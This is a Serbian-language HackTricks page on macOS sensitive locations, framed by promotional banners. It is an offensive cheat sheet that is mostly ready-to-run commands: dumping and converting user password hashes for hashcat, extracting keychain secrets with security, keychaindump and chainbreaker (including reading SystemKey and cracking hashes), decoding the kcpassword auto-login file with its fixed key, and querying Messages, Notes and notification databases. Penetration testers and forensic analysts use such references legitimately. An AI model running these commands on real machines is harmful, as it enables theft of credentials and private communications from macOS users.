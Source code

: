 # macOS Sensitive Locations

<details>

<summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Drugi načini podrške HackTricks-u:

* Ako želite da vidite **vašu kompaniju reklamiranu na HackTricks-u** ili **preuzmete HackTricks u PDF formatu**, proverite [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Nabavite [**zvanični PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Otkrijte [**The PEASS Family**](https://opensea.io/collection/the-peass-family), našu kolekciju ekskluzivnih [**NFT-ova**](https://opensea.io/collection/the-peass-family)
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili nas **pratite** na **Twitter-u** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks\_live)**.**
* **Podelite svoje trikove hakovanja slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>

## Lozinke

### Senke lozinki

Senka lozinke se čuva sa korisničkom konfiguracijom u plistovima smeštenim u **`/var/db/dslocal/nodes/Default/users/`**.\
Sledeći oneliner može se koristiti za ispis **svih informacija o korisnicima** (uključujući informacije o hešu):

{% code overflow="wrap" %}
```bash
for l in /var/db/dslocal/nodes/Default/users/*; do if [ -r "$l" ];then echo "$l"; defaults read "$l"; fi; done
```
{% endcode %}

[**Skripte poput ove**](https://gist.github.com/teddziuba/3ff08bdda120d1f7822f3baf52e606c2) ili [**ove**](https://github.com/octomagon/davegrohl.git) mogu se koristiti za pretvaranje heša u **hashcat** **format**.

Alternativna jednolinijska komanda koja će izbaciti akreditive svih korisničkih naloga koji nisu servisni u hashcat formatu `-m 7100` (macOS PBKDF2-SHA512):

{% code overflow="wrap" %}
```bash
sudo bash -c 'for i in $(find /var/db/dslocal/nodes/Default/users -type f -regex "[^_]*"); do plutil -extract name.0 raw $i | awk "{printf \$0\":\$ml\$\"}"; for j in {iterations,salt,entropy}; do l=$(k=$(plutil -extract ShadowHashData.0 raw $i) && base64 -d <<< $k | plutil -extract SALTED-SHA512-PBKDF2.$j raw -); if [[ $j == iterations ]]; then echo -n $l; else base64 -d <<< $l | xxd -p -c 0 | awk "{printf \"$\"\$0}"; fi; done; echo ""; done'
```
{% endcode %}

### Dumpovanje Keychain-a

Imajte na umu da prilikom korišćenja security binarnog fajla za **dumpovanje dešifrovanih lozinki**, korisnik će biti upitan da dozvoli ovu operaciju.

```bash
#security
secuirty dump-trust-settings [-s] [-d] #List certificates
security list-keychains #List keychain dbs
security list-smartcards #List smartcards
security dump-keychain | grep -A 5 "keychain" | grep -v "version" #List keychains entries
security dump-keychain -d #Dump all the info, included secrets (the user will be asked for his password, even if root)
```

### [Keychaindump](https://github.com/juuso/keychaindump)

{% hint style="danger" %}
Na osnovu ovog komentara [juuso/keychaindump#10 (comment)](https://github.com/juuso/keychaindump/issues/10#issuecomment-751218760) izgleda da ovi alati više ne funkcionišu u Big Sur-u.
{% endhint %}

### Pregled Keychaindump-a

Razvijen je alat pod nazivom **keychaindump** koji služi za izvlačenje lozinki iz macOS keychain-a, ali ima ograničenja na novijim verzijama macOS-a kao što je Big Sur, kako je navedeno u [diskusiji](https://github.com/juuso/keychaindump/issues/10#issuecomment-751218760). Korišćenje **keychaindump**-a zahteva da napadač stekne pristup i privilegije **root**-a. Alat iskorišćava činjenicu da je keychain automatski otključan prilikom prijave korisnika radi praktičnosti, omogućavajući aplikacijama da mu pristupe bez ponovnog unošenja korisnikove lozinke. Međutim, ako korisnik odluči da zaključa svoj keychain nakon svake upotrebe, **keychaindump** postaje neefikasan.

**Keychaindump** funkcioniše tako što cilja određeni proces nazvan **securityd**, koji je opisan od strane Apple-a kao daemon za autorizaciju i kriptografske operacije, ključne za pristup keychain-u. Proces izvlačenja uključuje identifikaciju **Master Key**-a koji se dobija iz korisnikove prijavne lozinke. Ovaj ključ je neophodan za čitanje keychain fajla. Da bi pronašao **Master Key**, **keychaindump** skenira memoriju heap-a **securityd**-a koristeći `vmmap` komandu, tražeći potencijalne ključeve unutar područja označenih kao `MALLOC_TINY`. Sledeća komanda se koristi za inspekciju ovih memorijskih lokacija:

```bash
sudo vmmap <securityd PID> | grep MALLOC_TINY
```

Nakon identifikovanja potencijalnih glavnih ključeva, **keychaindump** pretražuje hrpe za određeni obrazac (`0x0000000000000018`) koji ukazuje na kandidata za glavni ključ. Dalji koraci, uključujući deobfuskaciju, su potrebni da bi se iskoristio ovaj ključ, kako je opisano u izvornom kodu **keychaindump**-a. Analitičari koji se fokusiraju na ovu oblast trebaju da primete da su ključni podaci za dešifrovanje keychain-a smešteni unutar memorije procesa **securityd**. Primer komande za pokretanje **keychaindump**-a je:

```bash
sudo ./keychaindump
```

### chainbreaker

[**Chainbreaker**](https://github.com/n0fate/chainbreaker) može se koristiti za izvlačenje sledećih vrsta informacija iz OSX keychain-a na forenzički ispravan način:

* Hashovana lozinka Keychain-a, pogodna za pucanje pomoću [hashcat](https://hashcat.net/hashcat/) ili [John the Ripper](https://www.openwall.com/john/)
* Internet lozinke
* Generičke lozinke
* Privatni ključevi
* Javni ključevi
* X509 sertifikati
* Bezbedne beleške
* Appleshare lozinke

Uz lozinku za otključavanje Keychain-a, master ključ dobijen korišćenjem [volafox](https://github.com/n0fate/volafox) ili [volatility](https://github.com/volatilityfoundation/volatility), ili fajl za otključavanje kao što je SystemKey, Chainbreaker će takođe pružiti lozinke u plaintext-u.

Bez jednog od ovih metoda za otključavanje Keychain-a, Chainbreaker će prikazati sve ostale dostupne informacije.

#### **Dumpuj ključeve Keychain-a**

```bash
#Dump all keys of the keychain (without the passwords)
python2.7 chainbreaker.py --dump-all /Library/Keychains/System.keychain
```

#### **Ispumpaj ključeve keša (sa lozinkama) pomoću SystemKey**

```bash
/System/Library/Security/SecurityAgentPlugins/SystemKeychain.bundle/Contents/Resources/KeychainCLI -k /Library/Keychains/System.keychain -d
```

Ovaj komanda se koristi za ispuštanje ključeva keša (uključujući lozinke) pomoću SystemKey alata. Alat se nalazi na putanji `/System/Library/Security/SecurityAgentPlugins/SystemKeychain.bundle/Contents/Resources/KeychainCLI`, a keš se nalazi na putanji `/Library/Keychains/System.keychain`.

```bash
# First, get the keychain decryption key
# To get this decryption key you need to be root and SIP must be disabled
hexdump -s 8 -n 24 -e '1/1 "%.2x"' /var/db/SystemKey && echo
## Use the previous key to decrypt the passwords
python2.7 chainbreaker.py --dump-all --key 0293847570022761234562947e0bcd5bc04d196ad2345697 /Library/Keychains/System.keychain
```

#### **Ispumpaj ključeve keša (sa lozinkama) krekovanjem heša**

```bash
# Get the keychain hash
python2.7 chainbreaker.py --dump-keychain-password-hash /Library/Keychains/System.keychain
# Crack it with hashcat
hashcat.exe -m 23100 --keep-guessing hashes.txt dictionary.txt
# Use the key to decrypt the passwords
python2.7 chainbreaker.py --dump-all --key 0293847570022761234562947e0bcd5bc04d196ad2345697 /Library/Keychains/System.keychain
```

#### **Ispumpaj ključeve keša (sa lozinkama) pomoću ispumpavanja memorije**

[Pratite ove korake](../#ispumpavanje-memorije-pomoću-osxpmem) da biste izvršili **ispumpavanje memorije**

```bash
#Use volafox (https://github.com/n0fate/volafox) to extract possible keychain passwords
# Unformtunately volafox isn't working with the latest versions of MacOS
python vol.py -i ~/Desktop/show/macosxml.mem -o keychaindump

#Try to extract the passwords using the extracted keychain passwords
python2.7 chainbreaker.py --dump-all --key 0293847570022761234562947e0bcd5bc04d196ad2345697 /Library/Keychains/System.keychain
```

#### **Ispumpaj ključeve keša (sa lozinkama) koristeći korisnikovu lozinku**

Ako znate korisnikovu lozinku, možete je koristiti da **ispumpate i dešifrujete kešove koji pripadaju korisniku**.

```bash
#Prompt to ask for the password
python2.7 chainbreaker.py --dump-all --password-prompt /Users/<username>/Library/Keychains/login.keychain-db
```

### kcpassword

Datoteka **kcpassword** je datoteka koja čuva **korisničku lozinku za prijavu**, ali samo ako vlasnik sistema ima **omogućenu automatsku prijavu**. Zbog toga će korisnik automatski biti prijavljen bez traženja lozinke (što nije baš sigurno).

Lozinka je sačuvana u datoteci **`/etc/kcpassword`** kriptovana sa ključem **`0x7D 0x89 0x52 0x23 0xD2 0xBC 0xDD 0xEA 0xA3 0xB9 0x1F`**. Ako je korisnička lozinka duža od ključa, ključ će biti ponovno korišćen.\
To čini lozinku prilično lako povratiti, na primer korišćenjem skripti kao što je [**ova**](https://gist.github.com/opshope/32f65875d45215c3677d).

## Interesantne informacije u bazama podataka

### Poruke

```bash
sqlite3 $HOME/Library/Messages/chat.db .tables
sqlite3 $HOME/Library/Messages/chat.db 'select * from message'
sqlite3 $HOME/Library/Messages/chat.db 'select * from attachment'
sqlite3 $HOME/Library/Messages/chat.db 'select * from deleted_messages'
sqlite3 $HOME/Suggestions/snippets.db 'select * from emailSnippets'
```

### Obaveštenja

Podatke o obaveštenjima možete pronaći u `$(getconf DARWIN_USER_DIR)/com.apple.notificationcenter/`

Većina interesantnih informacija će biti u **blob**-u. Dakle, moraćete da **izdvojite** taj sadržaj i **preoblikujete** ga u **čitljiv** oblik ili koristite **`strings`**. Da biste pristupili tome, možete uraditi sledeće:

{% code overflow="wrap" %}
```bash
cd $(getconf DARWIN_USER_DIR)/com.apple.notificationcenter/
strings $(getconf DARWIN_USER_DIR)/com.apple.notificationcenter/db2/db | grep -i -A4 slack
```
{% endcode %}

```bash
sqlite3 ~/Library/Group\ Containers/group.com.apple.notes/NoteStore.sqlite .tables

#To dump it in a readable format:
for i in $(sqlite3 ~/Library/Group\ Containers/group.com.apple.notes/NoteStore.sqlite "select Z_PK from ZICNOTEDATA;"); do sqlite3 ~/Library/Group\ Containers/group.com.apple.notes/NoteStore.sqlite "select writefile('body1.gz.z', ZDATA) from ZICNOTEDATA where Z_PK = '$i';"; zcat body1.gz.Z ; done
```

<details>

<summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Drugi načini podrške HackTricks-u:

* Ako želite da vidite **vašu kompaniju reklamiranu na HackTricks-u** ili **preuzmete HackTricks u PDF formatu** proverite [**PLANOVE ZA PRETPLATU**](https://github.com/sponsors/carlospolop)!
* Nabavite [**zvanični PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Otkrijte [**The PEASS Family**](https://opensea.io/collection/the-peass-family), našu kolekciju ekskluzivnih [**NFT-ova**](https://opensea.io/collection/the-peass-family)
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili nas **pratite** na **Twitter-u** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks\_live)**.**
* **Podelite svoje hakovanje trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>
